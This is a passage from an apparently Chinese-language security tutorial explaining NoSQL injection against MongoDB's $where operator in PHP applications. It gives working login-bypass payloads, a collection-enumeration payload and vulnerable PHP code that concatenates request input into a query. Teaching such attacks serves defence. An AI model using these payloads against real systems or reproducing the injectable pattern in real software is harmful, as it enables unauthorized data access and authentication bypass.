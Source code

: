 ```php
}
?>
```

- MongoDB 2.4 之前 在 MongoDB 2.4 之前，通过 $where 操作符使用 map-reduce、group 命令可以访问到 Mongo Shell 中的全局函数和属性，如 db，也就是说可以通过自定义 JavaScript 函数来获取数据库的所有信息。

  如下所示，发送以下数据后，如果有回显的话将获取当前数据库下所有的集合名：

  ```
  username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
  ```

- MongoDB 2.4 之后 MongoDB 2.4 之后 db 属性访问不到了，但我们应然可以构造万能密码。如果此时我们发送以下这几种数据就可以查出所有用户

  ```
  username=1&password=1';return true//
  或
  username=1&password=1';return true;var a='1
  ```

  ![image-20230224104649745](https://image.3001.net/images/20230224/1677242572_63f8b0ccc1e94560a4593.png!small)

这是因为发送 payload 进入 PHP 后的数据如下：

```json
array(
'$where' => "
function() { 
var username = '1';
var password = '1';return true;var a='1';
if(username == 'admin' && password == '123456'){
    return true;
}else{
    return false;
}
}
")
```

进入 MongoDB 后执行的查询命令为：

```sql
db.users.find({$where: "function() { var username = '1';var password = '1';return true;var a='1';if(username == 'admin' && password == '123456'){ return true; }else{ return false; }}"})
```

![image-20230224105030662](https://image.3001.net/images/20230224/1677242573_63f8b0cd92b787f45db44.png!small)

我们从代码中可以看出，password 中的 return true 使得整个 JavaScript 代码提前结束并返回了 true，这样就构造出了一个永真的条件并完成了 NoSQL 注入。

但是，这里的payload的构造主要取决于后端的php代码是怎么写的，假如后端的php代码如下图所示

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$query_body = array(
'$where' => "function () {
var username = '" . $_REQUEST["username"] . "';
var password = '" . $_REQUEST["password"] . "';
if (username == 'admin' && password == '123456') {
    return true;
} else {
    return false;
}
}"
);
$query = new MongoDB\Driver\Query($query_body);
$cursor = $manager->executeQuery('test.users', $query)->toArray();
if (count($cursor) > 0) {
```